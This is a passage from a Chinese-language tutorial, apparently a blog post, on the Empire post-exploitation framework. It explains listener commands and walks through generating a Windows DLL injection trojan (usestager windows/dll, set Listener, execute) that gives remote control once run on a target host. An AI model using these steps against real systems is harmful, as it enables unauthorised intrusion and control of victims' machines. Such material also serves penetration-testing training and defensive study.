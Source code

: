 Back命令即可返回上一层 ，

list命令可以列出当前激活的listener，

![img](https://img2018.cnblogs.com/blog/1545399/201903/1545399-20190320092447445-931031995.png)

kill命令可以删除该监听。

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g5ubl48m1cj30on08k7a4.jpg)

 

# 3）生成木马

设置完监听，接着就要生成木马然后在目标机器上运行，可以把这个理解成Metasploit里面的Payload，Empire里拥有多个模块化的`stager`，接着输入`usestaager`来设置采用何种模块，同样，通过双击Tab键，可以看到一共有26个模块。

## Stagers 

Empire在./lib/stagers/*里实现了多个模块化的stagers。包含有dlls,macros,one-liners等等。使用usestager <tab>列出所有可用的stagers。

 

![img](https://img2018.cnblogs.com/blog/1545399/201903/1545399-20190320092925576-2111824913.png)

 multi模块为通用模块，osx是Mac操作系统的模块，剩下的就是windows的模块

## 1>生成DLL木马

dll 进程注入马应该是平日里用的最多的方式了，输入`usestager windows/dll `的命令，然后输入info 命令来查看详细参数

```
(Empire: listeners) > usestager windows/dll
(Empire: stager/windows/dll) > info
```

 

![img](https://img2018.cnblogs.com/blog/1545399/201903/1545399-20190320093133243-793631560.png)

 

 这里我们设置一下`Listener`，然后执行`execute`命令，就会在tmp目录下生成launcher.dll的木马

```
(Empire: stager/windows/dll) > set Listener shuteer
(Empire: stager/windows/dll) > execute
```

![img](https://img2018.cnblogs.com/blog/1545399/201903/1545399-20190320093335988-2050667620.png)

![img](https://img2018.cnblogs.com/blog/1545399/201903/1545399-20190320093433641-2132826850.png)

 

然后将launcher.dll在目标主机上运行后，就会成功上线。
